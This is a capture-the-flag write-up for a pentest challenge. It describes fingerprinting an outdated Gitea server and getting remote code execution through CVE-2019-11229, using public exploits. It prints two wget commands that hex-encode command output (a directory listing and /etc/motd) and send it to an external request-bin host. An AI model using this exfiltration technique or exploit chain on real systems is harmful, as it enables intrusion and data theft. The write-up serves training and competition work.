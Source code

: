 # Tea time

## Pentest, 20 points

### Description

We lost access to our versioning server, the attacker removed our ssh keys. Please get it back and connect to the server using SSH to get the flag.

by Masterfox

### Solution

This challenge was only reachable within a specific network. We could access Tea time only through a machine we compromised from a previous challenge, only with a command-line interface then, at first. After a few minutes, to be more comfortable, we designed some `iptables` rules according to https://www.ired.team/offensive-security/red-team-infrastructure/redirectors-forwarders, to access from our browsers, the challenge.

First, we identify the version of Gitea with its commit: we can notice `Gitea Version: 73ce024` on the footer's page. We find Gitea's version then which is `1.8.0 RC2` with this commit https://github.com/go-gitea/gitea/commit/73ce02400cec659bd7a7ee3798ff73a4c7c85957. We notice that this version was released on 27th March 2019, which is quite old. There is probably some exploits that we can use!

We first looked at one from Podalirius (https://www.exploit-db.com/exploits/49571) presented in his article https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/. After some tries, we realized that we couldn't use this exploit as our Gitea's configuration didn't enable `Git hooks` by users.

Back to square one, we are searching for another exploit. Thanks to https://www.cvedetails.com/ we found the `CVE-2019-11229` which enables code execution, this is interesting.

Thanks to https://www.exploit-db.com/exploits/49383, https://medium.com/@knownsec404team/analysis-of-cve-2019-11229-from-git-config-to-rce-32c217727baa and some manual crafting, notably to modify the exploit as the originally designed server was not working fine, we had a RCE on the Tea time machine. Though, we had to design a specific exfiltration technique to retrieve some information from our executed commands. To list files and directories, we could do for instance the following command:
```bash
wget http://requestbin.net/r/xxx?x=$(ls | xxd -p | tr -d '\\n')
```

Okay, we have RCE, now focus back on the challenge and on what we are looking for. We thought that the flag was prompted when logging in through SSH in the SSH banner. Then, after reading some documentation such as https://www.tecmint.com/protect-ssh-logins-with-ssh-motd-banner-messages/ we dumped `/etc/motd` content:
```bash
wget http://requestbin.net/r/xxx?x=$(cat /etc/motd | xxd -p | tr -d '\\n')
```

Which contained the flag `NORZH{k33p_upd4t1ng_3Veryd4y}`